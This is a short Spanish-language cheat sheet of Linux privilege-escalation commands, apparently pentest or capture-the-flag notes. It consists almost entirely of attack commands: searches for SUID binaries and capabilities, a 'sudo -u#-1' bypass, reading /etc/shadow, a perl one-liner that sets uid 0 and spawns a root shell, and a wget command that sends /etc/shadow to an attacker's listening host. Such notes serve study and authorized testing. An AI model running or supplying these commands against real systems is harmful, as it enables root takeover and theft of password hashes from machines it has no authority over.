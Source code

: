 ### Buscar Permisos SUID

```python
	find / -perm -u=s -type f 2>/dev/null
```
### Buscar binarios

```python
	find / -perm -4000 2>/dev/null
```
### cambiar de usuario con sudo

```python
	sudo -u#-1
```
### Capabilities

```python
	getcap -r / 2>/dev/null
```
### Tareas crontab

```python
	cat /etc/crontab
```

---
### Escaladas 
### Escalada de privilegios con cat

```python
	/bin/cat /etc/shadow
```
### Escalada de privilegios con perl 

```python
	echo -ne '#!/bin/perl \nuse POSIX qw(setuid); \nPOSIX::setuid(0); \nexec "/bin/bash";' > script.pl
	
	perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
	
```
### Escalada de privilegios con wget

```python
sudo /usr/bin/wget --post-file=/etc/shadow <local-ip> <puerto>
```
